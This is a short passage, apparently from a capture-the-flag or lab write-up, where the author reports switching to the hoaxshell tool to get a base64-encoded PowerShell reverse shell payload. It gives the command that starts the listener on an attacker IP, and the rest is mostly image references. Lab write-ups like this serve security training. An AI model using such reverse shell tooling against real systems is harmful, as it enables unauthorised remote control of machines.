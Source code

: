 ![](../img/33.png)

I instead used hoaxshell, which still gave me a base64 encoded powershell payload but it worked.
```
python3 hoaxshell.py -s 10.8.3.153
```
![](../img/34.png)

